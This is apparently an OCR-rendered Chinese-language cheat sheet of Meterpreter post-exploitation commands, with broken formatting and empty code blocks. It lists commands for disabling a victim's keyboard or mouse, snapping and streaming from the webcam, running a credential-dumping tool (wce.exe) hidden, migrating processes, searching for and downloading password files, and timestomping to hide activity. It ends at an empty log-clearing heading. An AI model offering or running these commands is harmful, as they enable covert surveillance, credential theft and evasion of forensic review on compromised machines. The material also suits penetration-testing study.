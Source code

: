 

```

```
提权  

```

```


### 

```
提权详见提权模块
```






```

##### **命令**

```


### 

```
`#shell 进入目标cmdshell``#uictl [enable/disable] [keyboard/mouse/all]  开启或禁止键盘/鼠标``#uictl disable mouse  禁用鼠标``#uictl disable keyboard  禁用键盘``#webcam_list   查看摄像头``#webcam_snap   通过摄像头拍照``#webcam_stream  通过摄像头开启视频``#execute -H -i -f cmd.exe 执行cmd.exe，-H不可见，-i交互``#execute -H -m -d calc.exe -f wce.exe -a "-o 1.txt" 隐藏执行``#ps查看当前活跃进程``#migrate pid     迁移进程``#kill pid   #杀死进程`
```






```

##### **文件操作**

```


### 

```
`#pwd 查看当前目录``#ls 列出当前目录文件``#search -f *pass*        搜索文件``#cat c:\\passwd.txt   查看文件内容``#upload /tmp/pwn.txt C:\\1.txt   上传文件``#download c:\\passwd.txt /tmp/  下载文件``#edit c:\\1.txt  编辑或创建文件``#rm C:\\1.txt 删除文件``#mkdir folder  创建文件夹``#rmdir folder  删除文件夹``#lcd /tmp   #攻击者主机 切换目录``#timestomp -v C://2.txt   #查看时间戳``#timestomp C://2.txt -f C://1.txt #将1.txt的时间戳复制给2.txt`
```






```

##### **后渗透&权限维持**

```
`路由添加，socks建立，后门建立等查看``查看后门&持久化板块`
```

##### **清理日志**

```
